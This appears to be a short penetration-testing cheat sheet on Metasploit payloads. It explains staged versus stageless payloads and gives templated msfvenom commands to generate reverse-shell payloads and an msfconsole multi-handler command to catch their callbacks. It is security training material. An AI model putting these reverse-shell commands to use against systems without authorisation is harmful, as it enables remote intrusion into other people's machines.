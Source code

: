 ## Payloads

Staged vs Stageless payloads
A staged payload is sent in two parts: a small "stager" that connects back, and then the main payload (the "stage") is sent over that connection. A stageless payload is a single, large, self-contained file that has everything needed to run.


### Finding payloads

Via msfconsole:
```bash
search type:payload platform:windows x64 reverse
search type:payload platform:linux reverse_tcp
```

Via msfvenom:
```bash
msfvenom --list payloads
msfvenom --list payloads | grep windows | grep x64 | grep reverse

msfvenom --list formats
msfvenom --list encoders
```
### Generate a payload

```bash
# Reverse shell
msfvenom -p <PAYLOAD> lhost=<IP> lport=<PORT> -f <FORMAT> -b <BAD_CHARS> -o <FILENAME>
```
## Catching your shell
> [!IMPORTANT]
> You must use a multi-handler when catching staged payloads. If you want to use netcat you must use a stageless `linux/x86/shell_reverse_tcp`. Stageless payloads typicall have "shell" in their name.
>
> - windows/shell/reverse_tcp (Staged)
> - windows/shell_reverse_tcp (Stageless)
> - linux/shell/reverse_tcp (Staged)
> - linux/shell_reverse_tcp (Stageless)

## Multi-handler
Setup a multihander to catch a staged callback
```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set lhost <IP>; set lport <PORT>; exploit -j"
```

